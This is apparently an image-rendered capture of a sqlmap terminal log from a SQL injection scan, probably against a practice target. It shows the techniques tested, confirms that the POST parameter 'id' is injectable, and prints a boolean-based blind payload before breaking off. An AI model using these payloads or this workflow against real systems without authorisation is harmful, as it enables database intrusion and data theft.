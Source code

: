 ```txt
[13:48:17] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[13:48:17] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:48:17] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[13:48:17] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[13:48:17] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[13:48:17] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[13:48:17] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[13:48:17] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[13:48:17] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[13:48:17] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[13:48:17] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[13:48:17] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[13:48:17] [INFO] testing 'Generic inline queries'
[13:48:17] [INFO] testing 'MySQL inline queries'
[13:48:17] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[13:48:17] [CRITICAL] considerable lagging has been detected in connection response(s). Please use as high value for option '--time-sec' as possible (e.g. 10 or more)
[13:48:17] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[13:48:19] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[13:48:19] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[13:48:19] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[13:48:19] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[13:48:19] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[13:48:24] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP)'
[13:48:29] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SLEEP)'
[13:48:35] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP)'
[13:48:35] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SLEEP - comment)'
[13:48:40] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP - comment)'
[13:49:20] [INFO] POST parameter 'id' appears to be 'MySQL >= 5.0.12 OR time-based blind (SLEEP - comment)' injectable 
[13:49:20] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:49:20] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:49:20] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[13:49:24] [INFO] target URL appears to have 2 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[13:49:25] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[13:49:39] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[13:49:39] [INFO] testing 'MySQL UNION query (94) - 1 to 20 columns'
[13:49:51] [INFO] testing 'MySQL UNION query (94) - 21 to 40 columns'
[13:49:52] [INFO] testing 'MySQL UNION query (94) - 41 to 60 columns'
[13:50:03] [INFO] testing 'MySQL UNION query (94) - 61 to 80 columns'
[13:50:14] [INFO] testing 'MySQL UNION query (94) - 81 to 100 columns'
[13:50:22] [INFO] checking if the injection point on POST parameter 'id' is a false positive
POST parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 239 HTTP(s) requests:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 5244=5244 AND 'jrCW'='jrCW&Submit&Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP - comment)
```